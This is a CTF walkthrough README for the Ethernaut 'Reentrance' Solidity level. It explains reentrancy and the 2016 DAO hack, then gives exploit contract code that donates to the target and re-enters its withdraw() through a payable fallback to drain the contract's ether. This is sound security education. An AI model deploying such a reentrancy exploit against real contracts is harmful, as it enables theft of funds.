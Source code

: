 # Ethernaut Walkthrough: Re-entrancy
## Welcome to KweenBirb's 11th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Reentrance.sol, the 11th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in the root directory and .sol file in this directory. Let's begin!

In this challenge, Ethernaut instructs us 'to steal all the funds from the contract.' Not at all befitting the white hat hackery we're supposed to be learning! Sometimes you have to learn the hard way, I guess.

## On the history of reentrancy

Reentrance exploits litter the history of programmable blockchains, dating all the way back to the big $60 million DAO hack that happened in 2016. At the time, I recall online forums and communities like reddit being ablaze with misunderstanding and FUD about its implications. Many in the (admittedly, less informed) bitcoin community thought it was the end of Ethereum- despite it having just launched! Here's a great blog post on the DAO hack:

https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/

Other notable hacking incidents involving reentrance hacks affected protocols like Uniswap (2020), Cream Finance (2021), Synthetix (2019), and SpankChain (2018). Thankfully we've learned a lot about smart contract security in the years following and agreed upon a code pattern to defend against it.

## What is reentrancy?

Reentrant exploits are a pattern of code execution that involve two main factors:
1. an external call to an untrustworthy contract
2. an action that is executed before its effect on state is updated

This pattern reappears in many different forms but at the highest, most abstract level those are the two factors that are required. This is because when the external call to an outside contract is made (1.), execution context is handed to that contract! It can then maliciously 're-enter' by injecting ANOTHER call of the same function, which then restarts the process and starts a loop!

However, this vulnerability is blocked if the original contract updates its state with the effect of the external call BEFORE the external call is actually executed. Confused? Let's move on from the abstraction.

## Time to get concrete

Looking over the Ethernaut instance contract, we see that the scenario I just described is present. There's an external call in the withdraw() function that happens 4 lines BEFORE that call's effect on state is updated:

```
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
}
```

This contract is vulnerable to reentrancy! Maybe that's why Ethernaut named it Reentrance. Lol.

Our goal then is to call the withdraw function from our own malicious contract, instigating this call:

```(bool result,) = msg.sender.call{value:_amount}("");```

back to our contract, which will need a payable fallback function to both accept the ether sent and re-enter by initiating another call to the instance's withdraw() function.

To do so, let's begin by implementing the initial call:

```
function steal() public {
    reentrance.withdraw( amount );
}
```

And then implement the fallback function that will continuously re-enter by initiating another withdraw():

```
fallback() external payable {
    reentrance.withdraw( amount );
}
```

Keep in mind that the fallback must be payable as it will be receiving the ether amount (which we will next specify in storage).

That's pretty much it as far as the reentrance exploit goes. Short and sweet, huh?

## But wait! We forgot something. 

Before we can withdraw at all, we need to satisfy the balances[msg.sender] check in the withdraw() function:

```if(balances[msg.sender] >= _amount)```

To do so, we can raise our balance in the instance's storage mapping by giving our contract a way to use the handy deposit() function provided by Ethernaut.

```
function give() public {
    address to = address(this);
    reentrance.donate{ value: amount }(to);
}
```

## Implement the lock and load

All that's left before we execute our first reentrance hack is to specify the target and an amount of our choosing to donate and subsequently steal. There are of course many ways to do so but here's an example using an interface and convenient amount, all taken from the Solution.sol contract in this directory:

```
interface Reentrance {
    function donate(address _to) external payable;
    function balanceOf(address _who) external returns (uint);
    function withdraw(uint _amount) external;
}

contract Reenter {
    Reentrance reentrance;
    uint amount = 500000000000000;

    constructor(address $your_ethernaut_instance_here) payable {
        reentrance = Reentrance($your_ethernaut_instance_here);
    }

    // give, steal, and fallback functions 
}
```

Hack away, frens! 
○•○ h00t h00t ○•○
